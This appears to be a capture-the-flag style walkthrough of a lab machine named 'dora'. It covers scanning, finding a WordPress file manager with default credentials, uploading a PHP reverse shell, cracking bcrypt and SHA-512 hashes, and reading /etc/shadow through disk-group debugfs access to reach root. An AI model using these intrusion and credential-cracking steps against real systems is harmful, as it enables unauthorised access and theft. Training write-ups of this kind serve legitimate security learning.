


Enumeration
Nmap
Initial TCP scan result
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-09 01:44 UTC
Nmap scan report for 192.168.148.16
Host is up (0.045s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Nmap done: 1 IP address (1 host up) scanned in 43.85 seconds
Second TCP scan result
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 22,80
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-09 01:45 UTC
Nmap scan report for 192.168.148.16
Host is up (0.045s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
| 256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_ 256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 105.89 seconds
UDP scan result
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-09 01:47 UTC
Nmap scan report for 192.168.148.16
Host is up (0.045s latency).
PORT STATE SERVICE
53/udp open|filtered domain
67/udp open|filtered dhcps
123/udp open|filtered ntp
135/udp open|filtered msrpc
137/udp open|filtered netbios-ns
138/udp open|filtered netbios-dgm
161/udp open|filtered snmp
445/udp open|filtered microsoft-ds
631/udp open|filtered ipp
1434/udp open|filtered ms-sql-m
Nmap done: 1 IP address (1 host up) scanned in 1.77 seconds
Initial Access
HTTP 80
Wordpress CMS is being used on port 80

wpscan returned some hits on vulnerable plugins/themes.
┌──(kali㉿kali)-[~/Desktop]
└─$ wpscan --url <http://$IP> --enumerate p,t,u --plugins-detection aggressive
_______________________________________________________________
__ _______ _____
\\ \\ / / __ \\ / ____|
\\ \\ /\\ / /| |__) | (___ ___ __ _ _ __ ®
\\ \\/ \\/ / | ___/ \\___ \\ / __|/ _` | '_ \\
\\ /\\ / | | ____) | (__| (_| | | | |
\\/ \\/ |_| |_____/ \\___|\\__,_|_| |_|
WordPress Security Scanner by the WPScan Team
Version 3.8.28
Sponsored by Automattic - <https://automattic.com/>
@_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
[+] URL: <http://192.168.148.16/> [192.168.148.16]
[+] Effective URL: <http://192.168.148.16/wp-admin/setup-config.php>
[+] Started: Fri Jan 9 02:00:35 2026
Interesting Finding(s):
[+] Headers
| Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
| Found By: Headers (Passive Detection)
| Confidence: 100%
[+] WordPress readme found: <http://192.168.148.16/readme.html>
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
[+] WordPress version 6.2 identified (Insecure, released on 2023-03-29).
| Found By: Most Common Wp Includes Query Parameter In Homepage (Passive Detection)
| - <http://192.168.148.16/wp-includes/css/dashicons.min.css?ver=6.2>
| Confirmed By:
| Common Wp Includes Query Parameter In Homepage (Passive Detection)
| - <http://192.168.148.16/wp-includes/css/buttons.min.css?ver=6.2>
| Style Etag (Aggressive Detection)
| - <http://192.168.148.16/wp-admin/load-styles.php>, Match: '6.2'
[i] The main theme could not be detected.
[+] Enumerating Most Popular Plugins (via Aggressive Methods)
Checking Known Locations - Time: 00:00:14 <========================================================> (1499 / 1499) 100.00% Time: 00:00:14
[+] Checking Plugin Versions (via Passive and Aggressive Methods)
[i] Plugin(s) Identified:
[+] akismet
| Location: <http://192.168.148.16/wp-content/plugins/akismet/>
| Last Updated: 2025-11-12T16:31:00.000Z
| Readme: <http://192.168.148.16/wp-content/plugins/akismet/readme.txt>
| [!] The version is out of date, the latest version is 5.6
|
| Found By: Known Locations (Aggressive Detection)
| - <http://192.168.148.16/wp-content/plugins/akismet/>, status: 200
|
| Version: 5.1 (100% confidence)
| Found By: Readme - Stable Tag (Aggressive Detection)
| - <http://192.168.148.16/wp-content/plugins/akismet/readme.txt>
| Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
| - <http://192.168.148.16/wp-content/plugins/akismet/readme.txt>
[+] Enumerating Most Popular Themes (via Passive and Aggressive Methods)
Checking Known Locations - Time: 00:00:04 <==========================================================> (400 / 400) 100.00% Time: 00:00:04
[+] Checking Theme Versions (via Passive and Aggressive Methods)
[i] Theme(s) Identified:
[+] twentytwentyone
| Location: <http://192.168.148.16/wp-content/themes/twentytwentyone/>
| Last Updated: 2025-12-03T00:00:00.000Z
| Readme: <http://192.168.148.16/wp-content/themes/twentytwentyone/readme.txt>
| [!] The version is out of date, the latest version is 2.7
| Style URL: <http://192.168.148.16/wp-content/themes/twentytwentyone/style.css>
| Style Name: Twenty Twenty-One
| Style URI: <https://wordpress.org/themes/twentytwentyone/>
| Description: Twenty Twenty-One is a blank canvas for your ideas and it makes the block editor your best brush. Wi...
| Author: the WordPress team
| Author URI: <https://wordpress.org/>
|
| Found By: Known Locations (Aggressive Detection)
| - <http://192.168.148.16/wp-content/themes/twentytwentyone/>, status: 500
|
| Version: 1.8 (80% confidence)
| Found By: Style (Passive Detection)
| - <http://192.168.148.16/wp-content/themes/twentytwentyone/style.css>, Match: 'Version: 1.8'
[+] twentytwentythree
| Location: <http://192.168.148.16/wp-content/themes/twentytwentythree/>
| Last Updated: 2024-11-13T00:00:00.000Z
| Readme: <http://192.168.148.16/wp-content/themes/twentytwentythree/readme.txt>
| [!] The version is out of date, the latest version is 1.6
| [!] Directory listing is enabled
| Style URL: <http://192.168.148.16/wp-content/themes/twentytwentythree/style.css>
| Style Name: Twenty Twenty-Three
| Style URI: <https://wordpress.org/themes/twentytwentythree>
| Description: Twenty Twenty-Three is designed to take advantage of the new design tools introduced in WordPress 6....
| Author: the WordPress team
| Author URI: <https://wordpress.org>
|
| Found By: Known Locations (Aggressive Detection)
| - <http://192.168.148.16/wp-content/themes/twentytwentythree/>, status: 200
|
| Version: 1.1 (80% confidence)
| Found By: Style (Passive Detection)
| - <http://192.168.148.16/wp-content/themes/twentytwentythree/style.css>, Match: 'Version: 1.1'
[+] twentytwentytwo
| Location: <http://192.168.148.16/wp-content/themes/twentytwentytwo/>
| Last Updated: 2025-12-03T00:00:00.000Z
| Readme: <http://192.168.148.16/wp-content/themes/twentytwentytwo/readme.txt>
| [!] The version is out of date, the latest version is 2.1
| Style URL: <http://192.168.148.16/wp-content/themes/twentytwentytwo/style.css>
| Style Name: Twenty Twenty-Two
| Style URI: <https://wordpress.org/themes/twentytwentytwo/>
| Description: Built on a solidly designed foundation, Twenty Twenty-Two embraces the idea that everyone deserves a...
| Author: the WordPress team
| Author URI: <https://wordpress.org/>
|
| Found By: Known Locations (Aggressive Detection)
| - <http://192.168.148.16/wp-content/themes/twentytwentytwo/>, status: 200
|
| Version: 1.4 (80% confidence)
| Found By: Style (Passive Detection)
| - <http://192.168.148.16/wp-content/themes/twentytwentytwo/style.css>, Match: 'Version: 1.4'
[+] Enumerating Users (via Passive and Aggressive Methods)
Brute Forcing Author IDs - Time: 00:01:00 <============================================================> (10 / 10) 100.00% Time: 00:01:00
[i] No Users Found.
[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at <https://wpscan.com/register>
[+] Finished: Fri Jan 9 02:01:59 2026
[+] Requests Done: 1930
[+] Cached Requests: 58
[+] Data Sent: 435.416 KB
[+] Data Received: 439.942 KB
[+] Memory used: 309.301 MB
[+] Elapsed time: 00:01:23
I looked up every plugin and theme but couldn’t find any known vulnerabilities associated with those. So I ran a gobuster scan and found /filemanager
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u <http://$IP> -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,asp,xml,html,js,sql,gz,zip --exclude-length 279
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: <http://192.168.148.16>
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes: 404
[+] Exclude Length: 279
[+] User Agent: gobuster/3.6
[+] Extensions: html,js,sql,gz,zip,php,asp,xml
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/filemanager (Status: 301) [Size: 322] [--> <http://192.168.148.16/filemanager/>]
/index.php (Status: 302) [Size: 0] [--> <http://192.168.148.16/wp-admin/setup-config.php>]
/index.php (Status: 302) [Size: 0] [--> <http://192.168.148.16/wp-admin/setup-config.php>]
I was able to login with the default credentials admin:admin .


Inside /filemanager/config/.htusers.php , I found credentials for two accounts: admin and dora . The passwords for these users appear to be hashed using different algorithms. I am almost certain the admin hash is MD5. Also its password should be admin because I’m currently logged in as admin haha.

Crackstation confirmed.

hashcat is telling me Dora’s hash algorithm is bcrypt . Let’s crack it.
┌──(kali㉿kali)-[~/Desktop]
└─$ echo '$2a$08$zyiNvVoP/UuSMgO2rKDtLuox.vYj.3hZPVYq3i4oG3/CtgET7CjjS' > hash.txt
┌──(kali㉿kali)-[~/Desktop]
└─$ hashcat hash.txt
hashcat (v6.2.6) starting in autodetect mode
OpenCL API (OpenCL 3.0 PoCL 6.0+debian Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #1: cpu-sandybridge-Intel(R) Core(TM) Ultra 9 288V, 2913/5890 MB (1024 MB allocatable), 4MCU
The following 4 hash-modes match the structure of your input hash:
# | Name | Category
======+============================================================+======================================
3200 | bcrypt $2*$, Blowfish (Unix) | Operating System
25600 | bcrypt(md5($pass)) / bcryptmd5 | Forums, CMS, E-Commerce
25800 | bcrypt(sha1($pass)) / bcryptsha1 | Forums, CMS, E-Commerce
28400 | bcrypt(sha512($pass)) / bcryptsha512 | Forums, CMS, E-Commerce
Hashcat successfully cracked the hash
┌──(kali㉿kali)-[~/Desktop]
└─$ hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --show
$2a$08$zyiNvVoP/UuSMgO2rKDtLuox.vYj.3hZPVYq3i4oG3/CtgET7CjjS:doraemon
I thought I would be able to login to SSH using dora’s credentials but it returned Permission denied
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh dora@$IP
dora@192.168.148.16: Permission denied (publickey).
Alternatively, I simply uploaded php-reverse-shell.php file inside /filemanager/config . Then I navigated to the path on the browser.

The payload was triggered and it connected to my nc listener. I got the shell as www-data
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.236] from (UNKNOWN) [192.168.148.16] 38262
Linux dora 5.4.0-146-generic #163-Ubuntu SMP Fri Mar 17 18:26:02 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
03:13:00 up 1:35, 0 users, load average: 0.00, 0.00, 0.00
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
I stopped the listener and reconnected using penelope . Penelope is probably my favorite program right now. It automatically stabilizes and upgrades your TTY so you don’t have to go through all of the commands trying to stabilize your shell only to have it drop after a stupid typo. You can press Ctrl + C anytime and it still won’t kill your session.
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 penelope.py -p 80
[+] Listening for reverse shells on 0.0.0.0:80 → 127.0.0.1 • 192.168.136.128 • 172.20.0.1 • 172.17.0.1 • 192.168.45.236
➤ 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from dora~192.168.148.16-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12
[+] Logging to /home/kali/.penelope/sessions/dora~192.168.148.16-Linux-x86_64/2026_01_09-03_15_18-045.log 📜
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
www-data@dora:/$ whoami
www-data
www-data@dora:/$
Shell as dora
/etc/passwd shows the user does exist.
www-data@dora:/home/dora$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
...
dora:x:1000:1000::/home/dora:/bin/sh
Since I already had dora's password, I tried switching to that user and successfully logged in.
www-data@dora:/home/dora$ su dora
Password:
$ whoami
dora
Found local.txt
$ pwd
/home/dora
$ ls
local.txt
$ cat local.txt
bc0...
Privilege Escalation
Dora is a member of disk group.
$ id
uid=1000(dora) gid=1000(dora) groups=1000(dora),6(disk)
df -h to check disk space summary.
$ df -h
Filesystem Size Used Avail Use% Mounted on
/dev/mapper/ubuntu--vg-ubuntu--lv 9.8G 5.1G 4.2G 55% /
udev 947M 0 947M 0% /dev
tmpfs 992M 0 992M 0% /dev/shm
tmpfs 199M 1.2M 198M 1% /run
tmpfs 5.0M 0 5.0M 0% /run/lock
tmpfs 992M 0 992M 0% /sys/fs/cgroup
/dev/loop0 62M 62M 0 100% /snap/core20/1611
/dev/loop1 64M 64M 0 100% /snap/core20/1852
/dev/sda2 1.7G 209M 1.4G 13% /boot
/dev/loop2 68M 68M 0 100% /snap/lxd/22753
/dev/loop3 50M 50M 0 100% /snap/snapd/18596
/dev/loop4 92M 92M 0 100% /snap/lxd/24061
tmpfs 199M 0 199M 0% /run/user/1000
We can examine and modify the disk using the debugfs utility in Linux.
$ debugfs /dev/mapper/ubuntu--vg-ubuntu--lv
debugfs 1.45.5 (07-Jan-2020)
debugfs:
Got access to the contents of /etc/shadow
debugfs: cat /etc/shadow
root:$6$AIWcIr8PEVxEWgv1$3mFpTQAc9Kzp4BGUQ2sPYYFE/dygqhDiv2Yw.XcU.Q8n1YO05.a/4.D/x4ojQAkPnv/v7Qrw7Ici7.hs0sZiC.:19453:0:99999:7:::
daemon:*:19235:0:99999:7:::
bin:*:19235:0:99999:7:::
sys:*:19235:0:99999:7:::
sync:*:19235:0:99999:7:::
games:*:19235:0:99999:7:::
...
...
dora:$6$PkzB/mtNayFM5eVp$b6LU19HBQaOqbTehc6/LEk8DC2NegpqftuDDAvOK20c6yf3dFo0esC0vOoNWHqvzF0aEb3jxk39sQ/S4vGoGm/:19453:0:99999:7:::
I found proof.txt
debugfs: cat proof.txt
5af...
Even though I found both local.txt and proof.txt. I like to challenge myself further and obtain the root shell.
I downloaded both /etc/shadow and /etc/passwd to combine them first with unshadow and finally crack the hash with john but failed.
┌──(kali㉿kali)-[~/Desktop]
└─$ echo "root:$6$AIWcIr8PEVxEWgv1$3mFpTQAc9Kzp4BGUQ2sPYYFE/dygqhDiv2Yw.XcU.Q8n1YO05.a/4.D/x4ojQAkPnv/v7Qrw7Ici7.hs0sZiC.:19453:0:99999:7:::" > shadow.txt
┌──(kali㉿kali)-[~/Desktop]
└─$ unshadow passwd.txt shadow.txt > unshadow.txt
┌──(kali㉿kali)-[~/Desktop]
└─$ cat unshadow.txt| head -n 1
root:mFpTQAc9Kzp4BGUQ2sPYYFE/dygqhDiv2Yw.XcU.Q8n1YO05.a/4.D/x4ojQAkPnv/v7Qrw7Ici7.hs0sZiC.:0:0:root:/root:/bin/bash
┌──(kali㉿kali)-[~/Desktop]
└─$ john unshadow.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:01 DONE (2026-01-09 04:05) 0g/s 8487Kp/s 8487Kc/s 8487KC/s !SkicA!..*7¡Vamos!
Session completed.
Then I simply saved the hash separately into a file roothash.txt and john cracked the hash.
┌──(kali㉿kali)-[~/Desktop]
└─$ echo '$6$AIWcIr8PEVxEWgv1$3mFpTQAc9Kzp4BGUQ2sPYYFE/dygqhDiv2Yw.XcU.Q8n1YO05.a/4.D/x4ojQAkPnv/v7Qrw7Ici7.hs0sZiC.' > roothash.txt
┌──(kali㉿kali)-[~/Desktop]
└─$ john roothash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
explorer (?)
1g 0:00:00:00 DONE (2026-01-09 04:43) 1.492g/s 4967p/s 4967c/s 4967C/s adriano..cartman
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
Got the shell as root !
$ su root
Password:
root@dora:/# whoami
root
root@dora:/# id
uid=0(root) gid=0(root) groups=0(root)